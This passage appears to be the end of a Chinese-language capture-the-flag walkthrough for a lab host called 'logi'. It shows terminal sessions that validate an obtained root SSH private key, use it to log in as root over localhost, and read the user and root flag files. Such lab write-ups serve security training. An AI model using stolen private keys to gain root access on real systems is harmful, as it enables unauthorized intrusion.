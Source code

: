 验证私钥有效性：

```bash
ame@logi:~$ ssh-keygen -y -f id_rsa 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCdpPQH6Rvrh7zPdqb4ZhR5lD3V6bEylGcxak/SSH...
1prNVnyYwn23gQ== root@logi
```

## Root Shell 获取

使用私钥 SSH 连接到 root 用户：

```bash
ame@logi:~$ ssh root@127.0.0.1 -i id_rsa 
Linux logi 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Sep 30 05:49:34 2025 from 192.168.205.128
root@logi:~# id
uid=0(root) gid=0(root) groups=0(root)
```

成功获取 root 权限！

## 获取 Flag

读取用户和 root 的 flag：

```bash
root@logi:~# cat /root/provemyself.txt /home/ame/user.txt 
root{xiangrootzheyangderen}
user:{niudexiongdiniude}
```